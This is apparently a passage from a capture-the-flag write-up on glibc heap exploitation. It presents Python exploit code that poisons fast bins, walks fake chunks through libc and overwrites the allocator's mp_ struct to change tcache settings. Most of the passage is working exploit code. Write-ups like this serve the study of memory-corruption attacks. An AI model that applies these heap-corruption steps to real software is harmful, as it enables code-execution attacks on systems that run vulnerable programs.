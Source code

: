 Now we can allocate in this region and then create a fake chunk by writing in the libc memory we just allocated. Then we can allocate in the fake chunk we just created. Iterating this process we can walk through the libc and reach the mp_ struct.
```py
def fast_bin_poison(mangled_target, size):
    malloc(size)
    malloc(size)
    malloc(size)
    resize(8, 0)
    resize(8, size)
    payload = p64(mangled_target)
    edit(8, payload)

    malloc(size)
    malloc(size)

    free(8)
    free(9)
    free(11)
    free(10)

# Start walking in the libc creating faking chunk and allocating them
fast_bin_poison(secret ^ nd, 0x20)
nd = nd + 0x10
payload = p64(0x0) + p64(0x72) + p64(libc_secret)
edit(12, payload)
print(f"ND: {hex(nd)}")

# Iterate the walk
for i in range(13, 17):
    fast_bin_poison(secret ^ nd, SIZE_PASSO)
    nd = nd + SIZE_PASSO - 0x10
    payload = p64(0x71) * ((SIZE_PASSO - 0x20)//8) + p64(0x0) + p64((SIZE_PASSO + 0x10) | 0b10) + p64(libc_secret)
    edit(i, payload)

# Now we reach the mp_ struct
fast_bin_poison(secret ^ nd, SIZE_PASSO)
```
(nd is a variable I used to trace my position in the libc, so it contains the address of the base of the next fake chunk)

The mp_ struct is bigger than 0x68 so we have to split in half our payload and write a fake chunk size inside the mp_ without breaking it too much. I choose to write the fake size in the `no_dyn_threshold` field.
```py
poisoned_mp_ = mp_()
poisoned_mp_.mp_["trim_threshold"] = 0x20000
poisoned_mp_.mp_["top_pad"] = 0x20000
poisoned_mp_.mp_["mmap_threshold"] = 0x20000
poisoned_mp_.mp_["arena_test"] = 0x8
poisoned_mp_.mp_["no_dyn_threshold"] = 0x72
poisoned_mp_.mp_["sbrk_base"] = secret << 12
poisoned_mp_.mp_["tcache_small_bins"] = 0x1
poisoned_mp_.mp_["tcache_max_bytes"] = 0x410
poisoned_mp_.mp_["tcache_count"] = 0x7

mp_digest = poisoned_mp_.digest()

# Walking inside the mp_ struct without breaking it too much
payload = p64(0x0) * 2 + mp_digest[:0x50]
edit(17, payload[:-1])

fast_bin_poison(secret ^ nd, SIZE_PASSO)

```